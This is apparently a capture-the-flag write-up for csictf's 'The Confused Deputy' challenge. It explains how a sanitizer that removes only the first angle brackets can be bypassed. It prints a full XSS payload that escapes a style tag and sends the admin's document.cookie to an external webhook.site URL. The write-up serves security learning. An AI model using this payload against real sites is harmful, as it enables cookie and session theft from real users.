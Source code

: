 # The Confused Deputy

## Problem

```
Wow that's a pretty color! Don't you think? Pick your favourite and show it to the admin on /admin.

http://chall.csivit.com:30256
```

## Solution

We are taken to the `/view` endpoint, which is a page that takes in input and displays a corresponding colour.

![](images/deputy1a.PNG)

The challenge description also tells us to access another endpoint `/admin`. This brings us to a page where the "admin"
will visit a page URL that we give him, and also a `colour` input for the admin to submit.

![](images/deputy1b.PNG)

Immediately I thought of using reflected XSS to steal admin's cookie just like in redpwnCTF's `static-pastebin`. However
the sanitisation here would obviously be different, so we should examine the sanitisation function more in-depth via the
[source code](files/confuseddeputy/sourcecode.txt) of `/view`.

```javascript
<script>
    window.onload = () => {
        getCookie();
    };

    function dostuff() {
            const content = document.getElementById('colorize').value;
            const style = `<style> .show {background-image: none; background-color: ${sanitized(content)}}</style>`;
            document.head.innerHTML += (style);
        }

        function sanitized(content) {
            content = content.replace('<', '').replace('>', '');
            return content;
        }

        function getCookie() {
            document.getElementsByTagName('input')[0].setAttribute('value', document.cookie.split('password=')[1]);
        }
</script>
```

The `sanitized()` function uses the `replace()` function to prevent XSS by removing angle brackets `<` or `>`. However
it's usage is flawed/improper. As per this [page](https://www.w3schools.com/jsref/jsref_replace.asp), `replace()` only
replaces the ***first instance*** of the value, meaning we can trivially bypass this sanitisation by adding a pair of angle brackets
`<>` to the front of our payload.

Current `colour` payload:
```
<><img src=/ onerror="javascript:document.location='https://webhook.site/be022da0-4d21-4882-9dc3-051a5abe875d?c='+document.cookie"></img>
```


At this point, the payload still doesn't send anything to my webhook. Why is that so? After the payload is processed in 
`sanitized()`, it is wrapped up between `<style>` tags due to `dostuff()`.

![](images/deputy2.png)
(cr: thebongy)

As you can see above, the current payload bypasses the `sanitized()` but is stuck within the `<style>` tags.

For our XSS payload to execute, we need to break out of the `<style>` tags. This is simply done by adding `</style>` to 
the front and `<style>` to the back of our existing payload.

Final `colour` payload:
```
<></style><img src=/ onerror="javascript:document.location='https://webhook.site/be022da0-4d21-4882-9dc3-051a5abe875d?c='+document.cookie"></img><style>
```

We submit our payload to admin, with the URL input as `http://chall.csivit.com:30256/view`, and our webhook site should
retrieve the cookie that contains the flag.

![](images/deputy_flag.PNG)

**Flag**: `csictf{cssxss}`

&nbsp;

#### References:
* https://www.w3schools.com/jsref/jsref_replace.asp
